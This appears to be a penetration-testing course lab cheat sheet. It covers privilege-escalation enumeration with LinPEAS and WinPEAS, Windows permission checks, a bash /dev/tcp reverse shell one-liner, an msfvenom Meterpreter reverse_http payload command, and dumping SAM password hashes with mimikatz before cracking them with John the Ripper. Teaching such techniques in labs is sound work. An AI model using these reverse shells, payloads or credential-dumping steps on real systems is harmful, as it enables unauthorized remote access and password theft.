 

# Enumeration Scripts

Note:  Enumeration scripts for this lab are located in 
`~/cnm352-tools/scripts`

## Linux

### LinPEAS

To run the Linpeas enumeration script, first transfer the linpeas.sh file to the target and set the execute bits.

```bash
chmod +x linpeas.sh
```

Run the script one of two ways to capture output:

```bash
# Don't show output at the CLI, only capture to a file
./linpeas.sh > linpeas.txt

# Show output at CLI AND capture to file
./linpeas.sh | tee linpeas.txt
```

To view the output of the file in Kali with color coding:

```bash
less -r linpeas.txt
# Answer Y when asked if you want to continue opening
```

## Windows

### WinPEAS

Winpeas for Windows comes in multiple varieties.  The best one to use depends on the situation, but running each is straightforward:

```bash
# Batch file (for worst case scenarios)
winPEAS.bat > winpeas.txt

# 32-bit & compatible with 64-bit
winPEASx86.exe > winpeas.txt

# 64-bit only
winPEASx64.exe > winpeas.txt

# Viewing file from Windows CLI
type winpeas.txt
```

### Reverse Shell Without Netcat

You are not always guaranteed to have netcat on a target system.  You could always transfer the netcat binary.  However, it's also possible to initiate a reverse shell connection without netcat on the target.  

You will still need to start a netcat listener on Kali, but issuing this command on the target will cause the target to connect back in a reverse shell:

```bash
# Example 
# Connect to a netcat listener on 10.250.226.250 port 8001
bash &>/dev/tcp/10.250.226.250/8001 <&1
```

NOTE:  If echoing this command into a file, BE SURE to enclose it in single quotes or it will execute commands:

```bash
# Example
echo 'bash &>/dev/tcp/10.250.226.250/8001 <&1' > somefile.sh
```

MSFvenome

msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.14.37 LPORT=8000 -f exe -o win_met_revhttp_8000.exe

### Checking Permissions on Windows

Use whoami to check if a user is an administrator on Windows and also what context the prompt is running in.

#### Admin Group

Check the groups a user is in with whoami and see if they are a member of Administrators:

```bash
whoami /groups
```

#### UAC Context

If UAC is enabled on a system, the prompt can run in an admin or non-admin context, depending on what created the shell.  You can tell this by looking at the `whoami /groups` output and near the end is a line that says `Mandatory Label`.  

- If the prompt is an admin prompt, this will display `Mandatory Label\High Mandatory Level`
- If the prompt is an non-admin prompt, this will display `Mandatory Label\Medium Mandatory Level` 

#### Extended Permissions

You can view the special permissions of an account to see if they have some vulnerable permissions such as `seimpersonate` using this command:

```bash
whoami /priv
```

### Checking Windows Architecture

Enter this command to find the system's 32 or 64 bit architecture:

```bash
wmic os get OSArchitecture
```

### Dumping Windows Hashes with MimiKatz

You can dump hashes in a regular shell by using the mimikatz tool.   The mimikatz executables are found in Kali under `/usr/share/windows-resources/mimikatz`.  Mimikatz has a 32 and 64-bit version, and this should match the target system's architecture.  

This tool requires and admin account in order to run.

After transferring the correct mimikatz binary to the Windows target, run mimikatz to enter the mimikatz prompt.  Then run the following commands to retrieve the hashes:

1. Request debug privileges

   `privilege::debug`

2. Impersonate the SYSTEM user's token to run commands as SYSTEM
   `token::elevate`

3. Dump the password hashes in the SAM file from the LSA process's memory space
   `lsadump::sam`

4. Search the output for usernames and hashes.  It will show up as an NTLM hash, but JTR uses `NT` as the format.

5. Copy the hash values to a file in Kali Linux and then run John the Ripper on them to crack them:
   `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt`

